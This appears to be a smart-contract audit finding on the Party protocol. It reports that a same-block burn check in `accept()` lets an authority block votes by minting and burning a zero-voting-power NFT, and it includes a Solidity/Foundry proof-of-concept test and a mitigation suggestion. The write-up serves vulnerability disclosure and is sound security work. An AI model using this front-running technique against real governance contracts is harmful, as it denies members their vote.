 # Burning an NFT can be used to block voting

## Impact

A new validation in the `accept()` function has been introduced in order to mitigate a potential attack to the party governance.

By burning an NFT, a party member can reduce the total voting power of the party just before creating a proposal and voting for it. Since the snapshot used to vote is previous to this action, this means the user can still use their burned voting power while voting in a proposal with a reduced total voting power. This is stated in the comment attached to the new validation:

https://github.com/code-423n4/2023-05-party/blob/main/contracts/party/PartyGovernance.sol#L589-L598

```solidity
589:         // Prevent voting in the same block as the last burn timestamp.
590:         // This is to prevent an exploit where a member can burn their card to
591:         // reduce the total voting power of the party, then propose and vote in
592:         // the same block since `getVotingPowerAt()` uses `values.proposedTime - 1`.
593:         // This would allow them to use the voting power snapshot just before
594:         // their card was burned to vote, potentially passing a proposal that
595:         // would have otherwise not passed.
596:         if (lastBurnTimestamp == block.timestamp) {
597:             revert CannotRageQuitAndAcceptError();
598:         }
```

This change can be abused by a bad actor in order to DoS the voting of a proposal. The call to `accept()` can be front-runned with a call to `burn()` that would trigger the revert in the original transaction.

While this is technically possible, it is not likely that a party member would burn their NFT just to DoS a voting for a single block. However, it might be possible to mint an NFT with zero voting power (in order to keep the voting power unaltered) and burn it in order to block calls to `accept()`.

## Proof of concept

The following test reproduces the issue. Bob's transaction to `accept()` is front-runned and blocked by minting a zero voting power NFT and immediately burning it.

Note: the snippet shows only the relevant code for the test. Full test file can be found [here](https://gist.github.com/romeroadrian/9a9868c7c3f540811eff6853db14bfc6).

```solidity
function test_PartyGovernanceNFT_BlockVoting() external {
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    address authority = makeAddr("authority");

    (Party party, , ) = partyAdmin.createParty(
        partyImpl,
        PartyAdmin.PartyCreationMinimalOptions({
            host1: address(this),
            host2: address(0),
            passThresholdBps: 5100,
            totalVotingPower: 100,
            preciousTokenAddress: address(toadz),
            preciousTokenId: 1,
            rageQuitTimestamp: 0,
            feeBps: 0,
            feeRecipient: payable(0)
        })
    );

    vm.prank(address(party));
    party.addAuthority(authority);

    // Mint voting power to alice and bob
    vm.startPrank(address(partyAdmin));

    uint256 aliceToken = party.mint(alice, 50, alice);
    uint256 bobTokenId = party.mint(bob, 50, bob);

    vm.stopPrank();

    // Alice creates proposal
    vm.startPrank(alice);

    uint256 proposalId = party.propose(
        PartyGovernance.Proposal({
            maxExecutableTime: uint40(type(uint40).max),
            cancelDelay: uint40(1 days),
            proposalData: abi.encode(0)
        }),
        0
    );

    vm.stopPrank();

    // Bob is going to vote for proposal but is front-runned by authority to block voting
    // Authority mints a 0 voting token and burns it
    vm.prank(authority);
    uint256 dummyTokenId = party.mint(authority, 0, authority);
    vm.prank(authority);
    party.burn(dummyTokenId);
    // Bob transaction reverts
    vm.expectRevert(PartyGovernance.CannotRageQuitAndAcceptError.selector);
    vm.prank(bob);
    party.accept(proposalId, 0);
}
```

## Recommendation

It is difficult to provide a solution without changing how voting works at the general level in the governance contracts. The issue can be partially mitigated by moving the check to the `proposal()` function. This would prevent the DoS on the `accept()` function while still mitigating the original issue, but would allow the same attack to be performed while members try to create proposals.
